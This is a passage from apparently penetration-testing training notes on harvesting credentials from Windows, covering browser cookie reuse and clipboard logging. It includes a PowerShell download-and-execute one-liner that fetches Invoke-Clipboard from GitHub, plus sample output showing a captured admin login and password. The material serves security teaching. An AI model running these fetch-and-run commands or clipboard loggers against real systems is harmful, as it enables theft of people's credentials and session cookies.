 ```powershell
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.
```

We can now use this cookie with cookie-editor as we did with Firefox.

{% hint style="info" %}
**Note:** When copy/pasting the contents of a cookie, make sure the value is one line.
{% endhint %}

***

## Clipboard

In many companies, network administrators use password managers to store their credentials and copy and paste passwords into login forms. As this doesn't involve `typing` the passwords, keystroke logging is not effective in this case. The `clipboard` provides access to a significant amount of information, such as the pasting of credentials and 2FA soft tokens, as well as the possibility to interact directly with the RDP session clipboard.

We can use the [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) script to extract user clipboard data. Start the logger by issuing the command below.

### **Monitor the Clipboard with PowerShell**

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger
```

The script will start to monitor for entries in the clipboard and present them in the PowerShell session. We need to be patient and wait until we capture sensitive information.

### **Capture Credentials from the Clipboard with Invoke-ClipboardLogger**

```powershell
PS C:\htb> Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```
